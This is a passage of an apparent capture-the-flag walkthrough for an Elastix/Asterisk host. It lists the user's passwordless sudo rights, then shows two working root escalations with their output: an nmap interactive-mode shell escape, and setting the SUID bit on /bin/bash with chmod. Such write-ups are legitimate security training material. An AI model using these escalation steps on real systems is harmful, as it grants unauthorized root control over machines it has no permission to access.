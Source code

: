 Lista la configuración de sudo:

```
bash-3.2$ sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```

GTFOBins has a cheatsheet to abuse the nmap binary:
[GTFOBins nmpa sudo](https://gtfobins.github.io/gtfobins/nmap/#sudo)

You can escalate to root:

```shell
bash-3.2$ sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
whoami
root
```

Alternatively, you can also use chmod:

```
bash-3.2$ LFILE=/bin/bash
bash-3.2$ sudo chmod 4755 $LFILE
bash-3.2$ /bin/bash -p
id
uid=100(asterisk) gid=101(asterisk) euid=0(root) groups=101(asterisk)
whoami
root
```

